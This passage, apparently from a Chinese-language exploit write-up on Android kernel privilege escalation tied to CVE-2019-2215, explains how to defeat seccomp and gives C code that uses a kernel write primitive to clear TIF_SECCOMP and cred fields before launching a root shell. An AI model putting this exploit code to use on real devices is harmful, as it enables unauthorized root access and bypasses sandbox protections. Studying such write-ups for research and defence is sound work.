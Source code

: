  

如果你想写一个 APP，通过 java 层 JNI 的方法的话，你需要绕过这个校验，但如果是想直接在安卓 shell 里执行的话不需要绕过他，它本质上是一个系统掉调用过滤器，看上去更像是 framework 层的防护。

 

mode 可以是 0（禁用），SECCOMP_MODE_STRICT 或者 SECCOMP_MODE_FILTER。我们不能把这个像 selinux 那样简单的将 mode 设为 0 把它禁用，实测禁用后会导致内核崩溃。为什么呢？因为 SECCOMP 开启后，task_struct->thread_info.flags 字段里的 TIF_SECCOMP 标志位会被置 1, 如果此时强行把 SECCOMP 关闭，当调用__secure_computing 时就会和 TIF_SECCOMP 标志位冲突导致内核崩溃。我们要做的就是先把 thread_info 的 flags 的 TIF_SECCOMP 标志位清空，然后

```
#define OFFSET__task_struct__thread_info__flags 0 // if CONFIG_THREAD_INFO_IN_TASK is defined
 
// Grant: SECCOMP isn't enabled when running the poc from ADB, only from app contexts
if (prctl(PR_GET_SECCOMP) != 0) {
printf("Disabling SECCOMP\n");
 
// clear the TIF_SECCOMP flag and everything else :P (feel free to modify this to just clear the single flag)
// arch/arm64/include/asm/thread_info.h:#define TIF_SECCOMP 11
kernel_write_ulong(current_ptr + OFFSET__task_struct__thread_info__flags, 0);
kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa8, 0);
kernel_write_ulong(current_ptr + OFFSET__task_struct__cred + 0xa0, 0); // this offset was eyeballed
 
if (prctl(PR_GET_SECCOMP) != 0) {
    printf("Failed to disable SECCOMP!\n");
    exit(1);
} else {
    printf("SECCOMP disabled!\n");
}
} else {
printf("SECCOMP is already disabled!\n");
}

```

其他步骤
====

launch_shell 是启动 shell 的， launch_debug_console ，con_loop 等都是调试相关的辅助操作，不再赘述

参考资料
====

LowRebSwrd：https://bbs.pediy.com/thread-264932.htm

 

KASAN https://groups.google.com/g/syzkaller-bugs/c/QyXdgUhAF50/m/g-FXVo1OAwAJ

 

https://www.52pojie.cn/thread-1083552-1-1.html

 

https://hernan.de/blog/tailoring-cve-2019-2215-to-achieve-root/
